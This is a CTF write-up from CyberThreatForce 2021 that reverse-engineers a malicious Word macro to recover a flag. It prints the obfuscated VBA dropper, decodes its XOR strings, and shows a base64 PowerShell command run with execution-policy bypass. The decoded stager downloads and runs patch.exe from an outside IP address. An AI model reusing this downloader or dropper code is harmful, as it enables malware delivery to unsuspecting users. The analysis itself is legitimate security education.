

# The Document is Strange
## CyberThreatForce CTF 2021
#### Category: Reversing
#### 5 Jul 2021

Description:

> You has receive a suspicous word document, you need to analyse this.

The challenge begins with a macro enabled Word document:


Upon opening the doc, Libreoffice gives a popup message saying it won't automatically run macros becuase they are dangerous. If we open the macro viewer, [we'll see an ugly, obfuscated VBA script.](misc/strange-doc/vba-macro.html) Here's a sample:

```vb
Sub LwvYeveWxaeE()
Dim vboXZZvyMJBot As String
vboXZZvyMJBot = xDSnawULVynR(Array(229, (397 - 156), (29 + 138), 179, 26, (6 - 0), (297 - 93), 9, 187, ((146 - 17) Xor (20 - 1)), (125 + (101 - 31)), 46, 72, 196, (53 Xor 190)), Array(175, (161 Xor 17), ((225 - 24) + 28), (141 + 85), ((133 - 47) + 5), (103 - 25), ((115 - 32) Xor 214), (69 Xor 13), (138 + (116 - 37)), (190 + 39), (34 Xor (256 - 93)), ((71 - 28) Xor (57 + 54)), (2 + 7), (74 Xor 203), (52 + 139))) & _
xDSnawULVynR(Array(((209 - 92) + 121), ((112 - 55) Xor 76), 148, 89, 12, ((7 - 1) + (30 - 4)), ((4 - 0) + 4), ((52 + 168) Xor (108 - 50)), ((0 - 0) Xor 9), (8 Xor 111), (1 Xor ((30 - 9) + 14)), 69, 184, 230, ((18 - 3) + 144)), Array(((111 - 37) Xor 229), 44, 197, (47 - 20), (198 - 78), ((123 - 52) Xor (4 + 34)), 79, 179, 72, (15 + (53 - 22)), (124 - 25), (8 - 4), 129, 167, (((97 - 25) + (7 - 2)) Xor (88 + 57)))) & _

```

This requires some cleanup to understand what is going on. I added pretty spacings and renamed functions and varibles so we can make sense of what they are doing. The script seems to be building strings by passing bytes through a XOR routine, creating files, and executing a shell command. [View the full cleaned script here.](misc/strange-doc/vba-macro-cleaned.html) Heres some snippits:

```vb
Private Function XOR_func(a As Variant, b As Variant)
    Dim unxored_str As String
    unxored_str = ""
    For i = LBound(a) To UBound(a)
        unxored_str = unxored_str & Chr(b(i) Xor a(i))
    Next
    XOR_func = unxored_str
End Function

Sub build_strings_func()
    Dim str1 As String

    str1 = XOR_func(Array(229, (397 - 156), (29 + 138), 179, 26, (6 - 0), (297 - 93), 9, 187, ((146 - 17) Xor (20 - 1)), (125 + (101 - 31)), 46, 72, 196, (53 Xor 190)), Array(175, (161 Xor 17), ((225 - 24) + 28), (141 + 85), ((133 - 47) + 5), (103 - 25), ((115 - 32) Xor 214), (69 Xor 13), (138 + (116 - 37)), (190 + 39), (34 Xor (256 - 93)), ((71 - 28) Xor (57 + 54)), (2 + 7), (74 Xor 203), (52 + 139))) & _

    Dim new_file As Object
    Set new_file = new_obj.CreateTextFile(new_file_name)

    new_file.Write new_file_data
End Sub

Shell shell_command, vbHide
```

Next we need to figure out what these strings decode to. This XOR function takes two char arrays, which must be equal length, as input. Then, it loops over the arrays, using array A as a XOR key for the corresponding byte in array B, and converts the XOR result to a string with Chr(). This can be implemented in python as so:

```python
def XOR_func(a, b):
    output = ""

    # because not all calls input a tuple
    # for example, (((25 - 7) ^ (143 + 13))) evalutates to an int
    if isinstance(a, int):
        return chr(b ^ a)

    for index, char in enumerate(a):
        output += chr(b[index] ^ a[index])

    return output
```

With some find and replace, we can convert VBA lines that build strings into python code:
- Delete every instance of `Array` and the left over parenthesis will create a tuple, which is iterable input for the XOR function
- Replace `Xor` with python's `^`
- Delete the `& _` VBA syntax, which appends to strings across new lines.
- Add the python string concatenation syntax `+=` to the beginning of some lines

And we're left with [some python code](misc/strange-doc/python-string-decode.html) that will decode and print the strings. Running it produces this output:

```
str5: JABQAHIAbwBjAE4AYQBtAGUAIAA9ACAAIgBwAGEAdABjAGgALgBlAHgAZQAiAA0ACgAkAFcAZQBiAEYAaQBsAGUAIAA9ACAAIgBoAHQAdABwADoALwAvADEANQAyAC4AMgAyADgALgAxADMAMwAuADYAOAAvACQAUAByAG8AYwBOAGEAbQBlACIADQAKACAADQAKACgATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAEYAaQBsAGUAKAAkAFcAZQBiAEYAaQBsAGUALAAiACQAZQBuAHYAOgBBAFAAUABEAEEAVABBAFwAJABQAHIAbwBjAE4AYQBtAGUAIgApAA0ACgBTAHQAYQByAHQALQBQAHIAbwBjAGUAcwBzACAAKAAiACQAZQBuAHYAOgBBAFAAUABEAEEAVABBAFwAJABQAHIAbwBjAE4AYQBtAGUAIgApAA==

new file data: powershell.exe -exec bypass -enc JABQAHIAbwBjAE4AYQBtAGUAIAA9ACAAIgBwAGEAdABjAGgALgBlAHgAZQAiAA0ACgAkAFcAZQBiAEYAaQBsAGUAIAA9ACAAIgBoAHQAdABwADoALwAvADEANQAyAC4AMgAyADgALgAxADMAMwAuADYAOAAvACQAUAByAG8AYwBOAGEAbQBlACIADQAKACAADQAKACgATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAEYAaQBsAGUAKAAkAFcAZQBiAEYAaQBsAGUALAAiACQAZQBuAHYAOgBBAFAAUABEAEEAVABBAFwAJABQAHIAbwBjAE4AYQBtAGUAIgApAA0ACgBTAHQAYQByAHQALQBQAHIAbwBjAGUAcwBzACAAKAAiACQAZQBuAHYAOgBBAFAAUABEAEEAVABBAFwAJABQAHIAbwBjAE4AYQBtAGUAIgApAA==

new file name: C:\Users\USERNAME\AppData\Local\Temp\launcher2.txt

new obj: Scripting.FileSystemObject

str6: C:\Users\USERNAME\AppData\Local\Temp\

str8: launcher2.txt

str9: launcher2.bat

shell command: C:\Users\USERNAME\AppData\Local\Temp\launcher2.bat
```

Cool, looks like the VBA script would build a powershell encoded command, write it to C:\Users\USERNAME\AppData\Local\Temp\launcher2.bat, then execute it. If we decode the powershell command from base64, we get this:

```powershell
$ProcName = "patch.exe"
$WebFile = "http://152.228.133.68/$ProcName"

(New-Object System.Net.WebClient).DownloadFile($WebFile,"$env:APPDATA\$ProcName")
Start-Process ("$env:APPDATA\$ProcName")
```

This powershell command would download http://152.228.133.68/patch.exe, write it to %APPDATA%\patch.exe, and execute it. We can download from this url with `wget` then run `file` on the result:

```
$ wget 152.228.133.68/patch.exe

$ file patch.exe
patch.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

A .NET assembly should be easily reversable, so I dropped it into my [FLARE VM](https://github.com/fireeye/flare-vm) and opened it with ILSpy. The decompilation shows the assembly contains a single function, Main, which will download a text file and write its contents to console.



We can grab that text file ourselves with `curl`, and we here we find our flag:
```
$ curl 152.228.133.68/staged_payload.txt
CYBERTF{M4cr0_D0wnl0ad3r_1s_D0wn}
```
